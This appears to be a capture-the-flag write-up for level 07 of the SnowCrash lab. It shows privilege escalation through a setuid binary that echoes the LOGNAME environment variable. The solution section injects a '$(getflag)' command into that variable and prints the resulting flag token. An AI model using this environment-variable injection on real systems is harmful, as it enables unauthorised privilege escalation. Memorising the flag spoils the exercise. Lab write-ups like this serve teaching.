 # Level 07

## Vulnerability
Privilege escalation via environment variables

## Context

```
level07@SnowCrash:~$  ls -l 
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## Solution

Let's see what's in the level07 executable file. 
```
level07@SnowCrash:~$ nm -u level07
[...]
LOGNAME
/bin/echo %s
```
What  is [LOGNAME](https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname)? It's "an env variable that contains the user that executes the current shell process." There's also a call to echo here, 
Let's confirm who LOGNAME is, and see if we can change it. 
```
level07@SnowCrash:~$ echo $LOGNAME
level07
level07@SnowCrash:~$ LOGNAME=$"Harry Potter"
level07@SnowCrash:~$ echo $LOGNAME
Harry Potter
```
Hmm... Perhaps we can exploit LOGNAME to launch getflag. 
```
level07@SnowCrash:~$ LOGNAME=$\(getflag\)
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Success!
